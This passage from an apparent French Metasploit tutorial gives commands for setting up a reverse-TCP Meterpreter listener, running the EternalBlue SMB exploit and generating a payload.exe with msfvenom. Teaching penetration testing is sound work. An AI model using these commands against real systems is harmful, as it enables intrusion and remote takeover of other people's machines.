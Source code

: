 1.  **Lancer la console Metasploit** :

    ```bash
    msfconsole
    ```
2.  **Sélectionner un handler** :

    ```bash
    use exploit/multi/handler
    ```
3.  **Configurer le payload** :

    ```bash
    set PAYLOAD windows/x64/meterpreter/reverse_tcp
    set LHOST 192.168.1.5
    set LPORT 4444
    ```
4.  **Lancer le listener** :

    ```bash
    exploit
    ```

* **Explication** :
  * Permet de recevoir une connexion depuis le payload exécuté sur la machine cible.

***

### 📋 Étape 6 : Exemples de Scénarios Pratiques

***

#### 1. Exploiter une Vulnérabilité SMB

*   **Commande** :

    ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    set RHOSTS 192.168.1.10
    set PAYLOAD windows/x64/meterpreter/reverse_tcp
    set LHOST 192.168.1.5
    exploit
    ```

#### 2. Générer un Payload Windows et Écouter

*   **Créer le payload** :

    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe -o payload.exe
    ```
*   **Configurer le handler** :

    ```bash
    use exploit/multi/handler
    set PAYLOAD windows/x64/meterpreter/reverse_tcp
    set LHOST 192.168.1.5
    set LPORT 4444
    exploit
    ```
